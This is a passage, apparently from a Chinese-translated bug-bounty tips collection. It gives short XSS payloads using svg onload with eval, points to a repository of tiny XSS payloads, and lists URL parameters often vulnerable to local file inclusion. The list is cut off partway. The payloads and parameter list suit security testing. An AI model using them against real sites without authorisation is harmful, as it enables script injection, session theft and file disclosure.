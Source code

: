 ```bash
<svg/onload=eval(name)>

<!-- If you control the URL -->
<svg/onload=eval(`'`+URL)>
```

需要注意的是，其中一些 XSS 有效 payloads 包含 'Ǌ.₨'unicode 字符串。这是一个目前由 @terjanq\[82\] 拥有的域名 (nj.rs)，其 web 服务器提供的 PoC 代码会在 XSS 条件下触发警报。

![图片](assets/1710308581-8f421dab47de07774751d5f60914b4d7.png)  

这使得 XSS 有效 payloads 非常小。

更多 XSS 有效 payloads 和 DEMO 页面，请查看他指定的 Github 仓库。

•https://github.com/terjanq/Tiny-XSS-Payloads

## 31\. Top 25 本地文件包含 (LFI) 参数

By @trbughunters\[83\] Source: link\[84\]

以下是易受本地文件包含（LFI）漏洞攻击的 top 25 个参数的列表：

```bash
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
```